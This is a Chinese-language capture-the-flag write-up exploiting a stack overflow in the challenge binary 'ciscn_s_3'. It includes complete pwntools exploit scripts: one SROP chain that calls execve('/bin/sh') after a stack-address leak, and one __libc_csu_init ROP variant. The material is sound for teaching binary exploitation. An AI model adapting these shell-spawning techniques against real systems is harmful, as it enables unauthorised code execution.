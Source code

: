 ## 0x001 程序分析

分析程序主函数，该程序的main函数中直接调用了vuln函数

![](1.png)

在vuln函数函数中，调用了两个 **syscall** 系统调用，先读取输入，然后再打印出来。

## 0x002 漏洞分析

程序中的漏洞很明显，**sys_read** 接收输入长度为0x400，远远超过了 **buf** 的长度，造成栈溢出。

使用checksec查看，程序只开启了NX。

![](2.png)

## 0x003 漏洞利用

程序开启了NX保护，漏洞是栈溢出，很容易想到构造ROP来完成利用。

程序中没有 **system** 函数，也没有 **"/bin/sh"** 字符串，那么按照以往的思路来看，就是利用 **write** 来泄露函数真实地址，然后使用LibcSearcher或者DynELFl来泄露 **system** 函数地址，完成漏洞利用。但是这个程序的got表中，没有用到什么函数， **read** 和 **write** 也是通过 **syscall** 系统调用完成的，因此这个方法不太可行。

还有一种就是利用 **syscall** 系统调用来执行 **execve("/bin/sh", 0, 0)** 命令获取系统权限。

这种方法首先需要获取 **/bin/sh** 的地址，可以再输入的时候将 **/bin/sh** 放到栈中，然后通过 **sys_write** 泄露栈地址，通过偏移计算出 **/bin/sh** 的地址。

使用GDB调试看下，

![](3.png)

在距离 **/bin/sh** 32字节的地方，有一个栈地址，可以通过泄露这个地址，我这里用的是kali操作系统，距离 **/bin/sh** 的偏移是 0x128 (ubuntu18.04中这个偏移是0x118)

```
payload = b'/bin/sh\x00' + b"A" * 8 + p64(syscall_read_addr)
p.sendline(payload)
p.recv(32)
bin_sh_addr = u64(p.recv(8)) - 0x128
```

有了 **/bin/sh** 的地址，接下来就是调用 **execve** 函数，可以使用 **syscall** 系统调用来完成。使用 **syscall** 执行 **execve("/bin/sh", 0, 0)** 命令的参数为

```
rax = 59
rdi = "/bin/sh"
rsi = 0
rdx = 0
```

给这几个寄存器赋值可以通过寻找 **gadgets** 配合 **__libc_csu_init** 完成，但是通过这种方式来完成ROP太过复杂，这里学到了更好用的方法 SROP。

关于SROP的原理就不多说了，网上有很多。利用SROP需要设置 **syscall** 的参数 **rax=15**，调用 **stub_rt_sigreturn** 函数完成对寄存器的赋值，可以使用pwntools提供的工具来进行利用。

```
sigframe = SigreturnFrame()
sigframe.rax = 59
sigframe.rdi = bin_sh_addr
sigframe.rsi = 0
sigframe.rdx = 0
sigframe.rip = syscall_ret_addr

payload = b'A' * 16 + p64(gadgets_addr) + p64(syscall_ret_addr) + bytes(sigframe)
p.sendline(payload)
```

新构造的ROP中，先填充数据，然后利用程序中的gadgets将rax赋值为15，最后使用syscall，将后面 **sigframe** 中构造好的内容赋值到寄存器中，完成 **execve("/bin/sh", 0, 0)** 命令的执行，最终获取系统权限。

最终exp如下：
```
from pwn import *

context.arch = 'amd64'
p = process('./ciscn_s_3')
elf = ELF("ciscn_s_3")

syscall_ret_addr = 0x0400517
syscall_read_addr = 0x04004F1
gadgets_addr = 0x04004DA

payload = b'/bin/sh\x00' + b"A" * 8 + p64(syscall_read_addr)
p.sendline(payload)
p.recv(32)
bin_sh_addr = u64(p.recv(8)) - 0x118

sigframe = SigreturnFrame()
sigframe.rax = 59
sigframe.rdi = bin_sh_addr
sigframe.rsi = 0
sigframe.rdx = 0
sigframe.rip = syscall_ret_addr

payload = b'A' * 16 + p64(gadgets_addr) + p64(syscall_ret_addr) + bytes(sigframe)
p.sendline(payload)
p.interactive()
```

## 0x004 不使用SROP

```
payload = b'/bin/sh\x00' + b"A" * 8 + p64(0x4004ed)
p.sendline(payload)
p.recv(32)
bin_sh_addr = u64(p.recv(8)) - 0x128
print (hex(bin_sh_addr))

gadget_execve = 0x4004e2
libc_csu_init_pop = 0x40059A
libc_csu_init_call = 0x400580
pop_rdi_ret = 0x4005a3
syscall_addr = 0x400501

payload2 = b'/bin/sh\x00' + b"A" * 8 + p64(gadget_execve) + p64(libc_csu_init_pop)
payload2 += p64(0)*2 + p64(bin_sh_addr+0x58) + p64(0)*3 + p64(libc_csu_init_call)
payload2 += p64(pop_rdi_ret) + p64(bin_sh_addr) + p64(syscall_addr)

p.sendline(payload2)
p.interactive()
```